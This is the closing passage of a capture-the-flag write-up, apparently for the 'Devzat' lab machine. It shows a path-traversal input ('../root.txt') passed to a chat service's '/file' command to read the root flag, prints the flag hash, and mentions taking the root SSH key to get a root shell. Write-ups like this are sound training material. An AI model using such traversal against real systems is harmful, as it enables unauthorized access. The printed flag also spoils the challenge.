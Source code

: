 Let's reconnect to 8443 and use the `/file` command to get the root flag. Whoops, the system reads the file starting with the `/root/devzat` directory so we need to modify a little bit about the filename. And voila, we got the root.txt!!

```
catherine: /file
[SYSTEM] Please provide file to print and the password
catherine: /file /root/root.txt Ce [REDACTED] 021?
[SYSTEM] The requested file @ /root/devzat/root/root.txt does not exist!
catherine: /file ../root.txt Ce [REDACTED] 021?
[SYSTEM] 6958344196c94f4df6528ecf399c523c
catherine: 
```

Also you can export the root ssh private key and you can connect to the root shell!

```
root@devzat:~# whoami && id && hostname
root
uid=0(root) gid=0(root) groups=0(root)
devzat
```

Thank you very much to read this write up till the end, hope you enjoy this messy write up. See you in another write up!! Ciao!